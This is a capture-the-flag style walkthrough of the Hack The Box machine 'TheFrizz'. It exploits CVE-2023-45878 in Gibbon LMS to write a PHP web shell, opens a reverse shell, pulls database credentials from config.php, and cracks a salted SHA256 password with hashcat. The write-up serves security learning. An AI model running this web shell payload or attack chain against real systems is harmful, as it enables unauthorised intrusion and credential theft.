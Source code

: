 `TheFrizz` is a medium-difficulty Windows machine featuring a web application showcasing Walkerville Elementary School and a Gibbon CMS instance.
# Init

Starting with the `nmap` scan, we have SSH, LDAP and Kerberos ports open along with `frizzdc.firzz.htb` and `firzz.htb` on port `80`.
```
┌─[htb_lab_truelyyours]─[10.10.16.82]─[truelyyours@parrot]─[~/htb/thefrizz]
└──╼ [★]$ sudo nmap -sC -sV -oA nmap/thefrizz 10.10.11.60
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-08-29 16:19 EDT
Stats: 0:01:12 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.94% done; ETC: 16:20 (0:00:00 remaining)
Nmap scan report for 10.10.11.60
Host is up (0.20s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_9.5 (protocol 2.0)
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.2.12)
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
|_http-title: Did not follow redirect to http://frizzdc.frizz.htb/home/
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-30 03:20:14Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Hosts: localhost, FRIZZDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-08-30T03:20:28
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 7h00m00s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 100.65 seconds
```

The port 80 takes us to a WES School website hosted on `apache` server. There is a peculiar text under "Hacking & The Law" course name:
`V2FudCB0byBsZWFybiBoYWNraW5n IGJ1dCBkb24ndCB3YW50IHRvIGdv IHRvIGphaWw/IFlvdSdsbCBsZWFy biB0aGUgaW4ncyBhbmQgb3V0cyBv ZiBTeXNjYWxscyBhbmQgWFNTIGZy b20gdGhlIHNhZmV0eSBvZiBpbnRl cm5hdGlvbmFsIHdhdGVycyBhbmQg aXJvbiBjbGFkIGNvbnRyYWN0cyBm cm9tIHlvdXIgY3VzdG9tZXJzLCBy ZXZpZXdlZCBieSBXYWxrZXJ2aWxs ZSdzIGZpbmVzdCBhdHRvcm5leXMu`
Each string is 28 bytes but is a simple base64 encoding. Lols.
```
[b'Want to learn hacking',
 b" but don't want to go",
 b" to jail? You'll lear",
 b"n the in's and outs o",
 b'f Syscalls and XSS fr',
 b'om the safety of inte',
 b'rnational waters and ',
 b'iron clad contracts f',
 b'rom your customers, r',
 b'eviewed by Walkervill',
 b"e's finest attorneys."]
```

Next, we have "Staff Login" button which takes us to Gibbon LMS login (This site is based on Gibbon framework) page asking for username password and an option to start Student and Staff applications!
![[Pasted image 20250829171201.png]]

Trying with random email and password gives "Incorrect username **and** password" strange. Anyways, there is Forgot password button, which take us to `http://frizzdc.frizz.htb/Gibbon-LMS/index.php?q=passwordReset.php`. Seems like passing a file in the query param. So, maybe we can do arbitrary read? 
A quick search lands me at [CVE-2023-45878](https://nvd.nist.gov/vuln/detail/CVE-2023-45878). A public exploit is available at https://herolab.usd.de/security-advisories/usd-2023-0025/.
Basically we can access a particular path (`/modules/Rubrics/rubrics_visualise_saveAjax.php`) which expects an 'img' tag and we can make it write arbitrary data under the pretext of bsae64 encoded image.

So, I head over to Burpsuite and send a POST request to above file and ask it to write `php` code into `yuyu.php` file.
![[Pasted image 20250829184850.png]]

```
img=image/png;yuyu,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbJ2NtZCddKT8%2b&path=yuyu.php&gibbonPersonID=0000000001
```

The base64 string is the PHP code `<?php echo system($_GET['cmd'])?`.
Now that we have `yuyu.php` file on server, we can access it at `/Gibbon-LMS/yuyu.php` and we can pass a `cmd` parameter which is a windows command:
![[Pasted image 20250829185709.png]]

Noice! So, we can now execute commands and get a reverse shell! You can simply go to https://www.revshells.com/ and get your shell code in base64 with your IP and port specified!
![[Pasted image 20250829190724.png]]

We can then listen on our local machine and send the above text as argument of `cmd`. Remember that we need to substitute "space" with "+" as you cannot pass white space in URL parameters. Send the request and you have the reverse shell 🎉.
```
─[htb_lab_truelyyours]─[10.10.16.82]─[truelyyours@parrot]─[~/htb/thefrizz]
└──╼ [★]$ rlwrap nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.11.60 51511

PS C:\xampp\htdocs\Gibbon-LMS> 
PS C:\xampp\htdocs\Gibbon-LMS> whoami
frizz\w.webservice
```

Well, I don't know better so I look for the string `password` in all the files of current folder using `findstr -I "password" *.*`. It prints out a lot of data because we have a forgot password file too! We can exclude it and look at the data and find that `config.php` has a DB password!
![[Pasted image 20250829193035.png]]

I has whole SQL DB info too:
```
/**
 * Sets the database connection information.
 * You can supply an optional $databasePort if your server requires one.
 */
$databaseServer = 'localhost';
$databaseUsername = 'MrGibbonsDB';
$databasePassword = 'MisterGibbs!Parrot!?1';
$databaseName = 'gibbon';
```

So, we can access the DB! I change to the `/xampp/mysql/bin` folder which has `mysql.exe`. This can be used to read Tables and it's contents. 
```
PS C:\xampp\mysql\bin> .\mysql.exe -uMrGibbonsDB -p'MisterGibbs!Parrot!?1' gibbon -e 'show tables';
```

A lot of tables are listed. I try to look for any user or student or person table. There is a **gibbonperson** table. So, lets describe it.
```
PS C:\xampp\mysql\bin> .\mysql.exe -uMrGibbonsDB -p'MisterGibbs!Parrot!?1' gibbon -e 'describe gibbonperson';
Field	Type	Null	Key	Default	Extra
gibbonPersonID	int(10) unsigned zerofill	NO	PRI	NULL	auto_increment
title	varchar(5)	NO		NULL	
surname	varchar(60)	NO			
firstName	varchar(60)	NO			
preferredName	varchar(60)	NO			
officialName	varchar(150)	NO		NULL	
nameInCharacters	varchar(60)	NO		NULL	
gender	enum('M','F','Other','Unspecified')	NO		Unspecified	
username	varchar(20)	NO	UNI	NULL	
passwordStrong	varchar(255)	NO		NULL	
passwordStrongSalt	varchar(255)	NO		NULL	
passwordForceReset	enum('N','Y')	NO		N
```

And this one has a "passwordStrong" with "Salt" fields. So we can extract thoes and try to crack it with hascat.
```
PS C:\xampp\mysql\bin> .\mysql.exe -uMrGibbonsDB -p'MisterGibbs!Parrot!?1' gibbon -e 'select username,passwordStrong,passwordStrongSalt from  gibbonperson';
username	passwordStrong	passwordStrongSalt
f.frizzle	067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03	/aACFhikmNopqrRTVz2489
```

Put all the data in a `hash.txt` file in format `username:hash:salt` as that is the expected format. In Gibbon, the passwords are stored as SHA256 where salt is prepended so choose the mode accordingly.
`hashcat -m 1420 --username hash.txt /usr/share/wordlists/rockyou.txt.gz`

And we have the password cracked! `067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03:/aACFhikmNopqrRTVz2489:Jenni_Luvs_Magic23`

Now we can simply `ssh` to the machine!
Well, no! The firewall will block it. The SSH is configured to not be accessed via password. We cannot use `evil-winrm` as the firewall has blocked the ports!
```
PORT     STATE    SERVICE VERSION
5985/tcp filtered wsman
5986/tcp filtered wsmans
```

We need to get Kerberos credentials. We can do so via the SMB service using NetExec.
```
┌─[htb_lab_truelyyours]─[10.10.16.82]─[truelyyours@parrot]─[~/htb/thefrizz]
└──╼ [★]$ nxc smb -k 10.10.11.60 -u 'f.frizzle' -p 'Jenni_Luvs_Magic23'
SMB         10.10.11.60     445    frizzdc          [*]  x64 (name:frizzdc) (domain:frizz.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         10.10.11.60     445    frizzdc          [-] frizz.htb\f.frizzle:Jenni_Luvs_Magic23 KRB_AP_ERR_SKEW
```

But the clock is skew so do `sudo ntpdate 10.10.11.60` and rerun the command


